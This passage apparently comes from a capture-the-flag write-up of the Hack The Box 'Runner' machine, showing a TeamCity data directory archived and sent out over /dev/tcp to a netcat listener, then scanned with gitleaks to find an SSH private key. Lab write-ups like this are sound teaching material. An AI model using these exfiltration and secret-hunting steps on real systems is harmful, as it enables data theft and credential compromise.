 ```bash
tcuser@647a82f29ca0:~$ mount
[...]
/dev/sda2 on /etc/resolv.conf type ext4 (rw,relatime)
/dev/sda2 on /etc/hostname type ext4 (rw,relatime)
/dev/sda2 on /etc/hosts type ext4 (rw,relatime)
/dev/sda2 on /data/teamcity_server/datadir type ext4 (rw,relatime)
/dev/sda2 on /opt/teamcity/logs type ext4 (rw,relatime)
/dev/sda2 on /opt/teamcity/temp type ext4 (rw,relatime)
[...]
```

### Discover ssh private key

Transfer `/data/teamcity_server/datadir` to kali

```bash
tcuser@647a82f29ca0:~$ tar cf /tmp/datadir.tar /data/teamcity_server/datadir
tar: Removing leading `/' from member names
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Runner]
└─$ nc -lvnp 443 > datadir.tar
```

```bash
tcuser@647a82f29ca0:~$ cat /tmp/datadir.tar > /dev/tcp/10.10.14.107/443
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Runner]
└─$ 7z x datadir.tar -o'loot/datadir'
```

Scan for secrets, found an ssh private key

```bash
┌──(bravosec㉿fsociety)-[~/htb/Runner/loot]
└─$ gitleaks detect -r gitleaks.json -v --no-git -s datadir

    ○
    │╲
    │ ○
    ○ ░
    ░    gitleaks

Finding:     -----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdz...-
Secret:      -----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdz...
RuleID:      private-key
Entropy:     6.009122
File:        datadir/data/teamcity_server/datadir/config/projects/AllProjects/pluginData/ssh_keys/id_rsa
Line:        1
Fingerprint: datadir/data/teamcity_server/datadir/config/projects/AllProjects/pluginData/ssh_keys/id_rsa:private-key:1

11:05AM INF scan completed in 5.49s
11:05AM WRN leaks found: 1
```
